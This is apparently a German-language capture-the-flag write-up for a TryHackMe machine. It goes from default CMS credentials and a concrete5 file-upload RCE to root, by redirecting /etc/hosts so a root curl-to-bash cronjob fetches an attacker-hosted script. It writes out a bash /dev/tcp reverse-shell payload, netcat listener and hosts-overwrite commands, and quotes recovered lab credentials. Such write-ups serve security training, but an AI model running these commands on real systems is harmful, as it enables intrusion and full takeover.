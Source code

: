 # Basics

10.10.119.145
# Scanning

PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

PHP/5.5.9-1ubuntu4.29

# Enumeration

/app frei?
-> Blog unter /app/castle
-> concrete5 CMS
-> 2018 Elementalk Theme

Enum Scan für /app/castle
/updates              (Status: 301) [Size: 329] [--> http://10.10.119.145:85/app/castle/updates/]
/packages             (Status: 301) [Size: 330] [--> http://10.10.119.145:85/app/castle/packages/]
/application          (Status: 301) [Size: 333] [--> http://10.10.119.145:85/app/castle/application/]
/concrete             (Status: 301) [Size: 330] 

Output der Robots.txt
User-agent: *
Disallow: /application/attributes
Disallow: /application/authentication
Disallow: /application/bootstrap
Disallow: /application/config
Disallow: /application/controllers
Disallow: /application/elements
Disallow: /application/helpers
Disallow: /application/jobs
Disallow: /application/languages
Disallow: /application/mail
Disallow: /application/models
Disallow: /application/page_types
Disallow: /application/single_pages
Disallow: /application/tools
Disallow: /application/views
Disallow: /ccm/system/captcha/picture

Funktionierende CMS loginpage unter 
http://10.10.119.145:85/app/castle/index.php/login/authenticate/concrete
-> Standard Login tests mit 
admin:admin
admin:password
## Login erfolgreich auf das CMS

Walking the Application 
- User-Email gefunden admin@mingdom.thm

CMS Concrete5 v 8.5.2 
-> RCE vorhanden 

https://vulners.com/hackerone/H1:768322

-> Anpassen der "Allow File Types" und .php datein zulassen
-> hochladen einer PHP Rev Shell 
-> Listener via nc starten
-> Link der Rev Shell Klicken 
http://10.10.119.145:85/app/castle/application/files/6117/5854/6089/rev.php
## Rev Shell erhalten

Privilegien Eskalieren
-> Checken Capabilitys
-> Checken SUID
Checken Sudo 

Alles kein Erfolg. Nachlsesen in Writeup da keine idee zu weiterm Vorgehen. 

The first place I like to check for credentials as www-data is the web configuration file. You see, CMSs like concrete must have a DB to store all the data and users of the website. There has to be a configuration file that contains database credentials to allow the connection between the website and the DB.

Looking around, I end up finding the file in /var/www/html/app/castle/application/config/database.php:

           'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',

# Login auf Toad User Erfolgreich 
nun weiter zu mario user
->  Laden von LinPeas

-> Intressanter Key in der $Env variabel gefunden 
PWD_token=aWthVGVOVEFOdEVTCg==


Da ich hier nicht weitergekommen bin Befolgen von Guide 

 Discovering the cronjob[](https://jaxafed.github.io/posts/tryhackme-mkingdom/#discovering-the-cronjob)

Checking the running processes using `pspy`, we discover a `cronjob` run by the `root` user.

It fetches the script at `http://mkingdom.thm:85/app/castle/application/counter.sh` using `curl`, runs it by piping it to `bash`, and appends the output of it to the `/var/log/up.log` file.

Unfortunately, we are not able to overwrite or replace the `counter.sh` script at `/var/www/html/app/castle/application/counter.sh`.

### Abusing writable hosts file[](https://jaxafed.github.io/posts/tryhackme-mkingdom/#abusing-writable-hosts-file)

Also, running `linpeas`, we discover that we are able to write to the `/etc/hosts` file.

Cronjob uses the `mkingdom.thm` hostname to fetch the script to run, and currently it resolves to `127.0.1.1`.

Von hier an bin ich wieder weitergekommen. 

Wir nutzen jetzt hier den Cronjob aus der ein script von 'mkingdom.thm' lädt. Das Funktioniert da wir edit rechte auf die /etc/hosts haben und damit bestimmen können was der Host als "mkingdm.thm " kennt.

Da wir keinen Write Access auf das Script haben müssen wir jetzt noch anpassungen vornehmen.

```
mkdir -p app/castle/application/
echo "bash -i >& /dev/tcp/10.10.40.77/5555 0>&1" > /app/castle/application/counter.sh
```
hier legen wir das Verzeichniss welches im Scriupt benutzt wird an und legen dort unsere Payload "counter.sh" an. Als Payload nutzen wir hier eine einfache Bash Reverse shell

Dann starten wir unseren easy Webserver. WICHTIG auf Port 85#
```
python3 -m http.server 85
```

und nun Modifizieren wir die /etc/hosts auf dem Ziel 

```
echo '10.10.40.77 mkingdom.thm' > /etc/hosts
```

Jetzt können wir mir NetCat die Rev shell fangen und haben Root Access

```
rlwrap nc -lvnp 5555
```

Jetzt ist nur noch eine sache etwas Tricky, wir wissen wo die Root.txt und die User.txt ist bekommen aber trotzdem beim auslesen Probleme, da wir in den Verzeichnissen nicht auslesen können. Das beheben wir indem wir die Datein in /tmp schieben 

```
cp root.txt /tmp
cd /home/mario
cp user.txt /tmp
```

Und tadaa haben wir beide Flaggs.

# Learnings für mich 

## Linpeas Lernen 
## Seite besser erkunden ->  Login Page finden

## Privilegien Eskalieren üben
